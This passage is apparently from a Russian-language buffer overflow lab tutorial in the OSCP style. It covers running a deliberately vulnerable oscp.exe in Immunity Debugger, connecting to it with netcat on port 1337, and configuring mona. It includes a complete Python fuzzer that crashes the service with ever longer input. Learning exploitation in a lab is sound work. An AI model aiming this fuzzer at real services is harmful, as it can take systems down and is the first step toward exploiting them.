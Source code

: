 Двоичный файл откроется в состоянии «паузы», поэтому щелкните красный значок воспроизведения или выберите Debug -> 
Run. В окне терминала двоичный файл oscp.exe должен быть запущен и сообщает нам, что он прослушивает порт 1337. 

На вашем компьютере с Kali подключитесь к порту 1337 на MACHINE_IP с помощью netcat:

`nc MACHINE_IP 1337`

Введите "HELP" и нажмите Enter. Обратите внимание, что существует 10 различных команд OVERFLOW, пронумерованных от 1 
до 10. Введите "OVERFLOW1 test" и нажмите Enter. Ответ должен быть "OVERFLOW1 COMPLETE". Завершите соединение. 

### Конфигурация Моны

Скрипт mona предустановлен, однако, чтобы с ним было проще работать, следует настроить рабочую папку с помощью 
следующей команды, которую можно запустить в поле ввода команд в нижней части окна Immunity Debugger: 

`!mona config -set workingfolder c:\mona\%p`

### Фаззинг
Создайте на компьютере с Kali файл с именем fuzzer.py и следующим содержимым:
```commandline
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
Запустите скрипт fuzzer.py с помощью python:python3 fuzzer.py
